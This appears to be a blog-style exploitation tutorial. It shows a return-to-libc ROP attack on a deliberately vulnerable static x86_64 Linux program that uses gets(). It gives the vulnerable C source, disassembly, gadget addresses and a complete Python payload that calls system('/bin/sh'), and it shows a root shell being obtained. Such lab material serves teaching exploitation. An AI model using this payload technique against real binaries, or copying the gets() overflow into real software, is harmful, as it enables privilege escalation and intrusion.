 ```yaml
---
layout: post
title: "[ROP] Ret to LibC"
categories: [pwn]
tags: [pwn, ROP]
description: How to bypass NX/ASLR protections using "ret to LibC" attack on a x86 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

# 1. Vulnerable binary
We can do a lot of things thanks to Return Oriented Programming. Today I will show you how to return to Libc function.
```c
#include <stdio.h>
#include <stdlib.h>

void my_system()
{
  printf("Who I am:\n");
  system("whoami");
}

int main(int ac, char **av)
{
  char buf[64];

  gets(buf);    // Warning
  my_system();
  printf("me:\n%s", buf);
  return 0;
}
```

This very simple program use the "system" libc function to display the "whoami" command output. We will hijack the program to execute the "/bin/sh" command instead of "whoami".

# 2. To begin
If we take a look at the compile code, we can see:
```nasm
$ objdump -D a.out | grep -A 12 "<__libc_system>:"
00000000004075d0 <__libc_system>:
  4075d0:	48 85 ff             	test   %rdi,%rdi
  4075d3:	74 0b                	je     4075e0 <__libc_system+0x10>
  4075d5:	e9 26 fc ff ff       	jmpq   407200 <do_system>
  4075da:	66 0f 1f 44 00 00    	nopw   0x0(%rax,%rax,1)
  4075e0:	48 83 ec 08          	sub    $0x8,%rsp
  4075e4:	bf d6 8b 48 00       	mov    $0x488bd6,%edi
  4075e9:	e8 12 fc ff ff       	callq  407200 <do_system>
  4075ee:	85 c0                	test   %eax,%eax
  4075f0:	0f 94 c0             	sete   %al
  4075f3:	48 83 c4 08          	add    $0x8,%rsp
  4075f7:	0f b6 c0             	movzbl %al,%eax
  4075fa:	c3                   	retq
```

It's the assembly code of the system function. The function simply take a parameter which is place in the RDI register and represent the command executed by the system function.

So the playload will look like:
```bash
+---------------------------+
|          pop rsi          |
|          @ data           |
|          pop rax          |
|  mov QWORD PTR [rsi], rax |
|          pop rdi          |
|          @ data           |
|     @ __libc_system       |
+---------------------------+
```

# 3. The payload
Thanks to ROPgadget, we easily can get all the gadget we need:
```bash
$ ROPgadget --binary a.out | egrep "pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret"
...
0x000000000045fd31 : mov qword ptr [rsi], rax ; ret
0x0000000000431d4d : pop rax ; ret
0x00000000004015cb : pop rdi ; ret
0x00000000004016e7 : pop rsi ; ret
...
```

As we already have the system address, we only need the data address:
```bash
$ objdump -D a.out | grep "<data>":
00000000006b84b8 <data>:
```

The whole payload will look like:
```python
#!/usr/bin/env python2.7

from struct import pack

payload = 'A'*72 # Padding

payload += pack("<Q", 0x00000000004016e7) # pop rsi ; ret
payload += pack("<Q", 0x00000000006b84b8) # @ data
payload += pack("<Q", 0x0000000000431d4d) # pop rax ; ret
payload += '/bin//sh'
payload += pack("<Q", 0x000000000045fd31) # mov qword ptr [rsi], rax ; ret
payload += pack("<Q", 0x00000000004015cb) # pop rdi ; ret
payload += pack("<Q", 0x00000000006b84b8) # @ data

payload += pack("<Q", 0x00000000004075d0) # @ __libc_system

print payload
```

# 4. Exploitation
A root shell please !
```bash
$ (python rop.py;cat) | ./a.out
Who I am:
root
me:
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
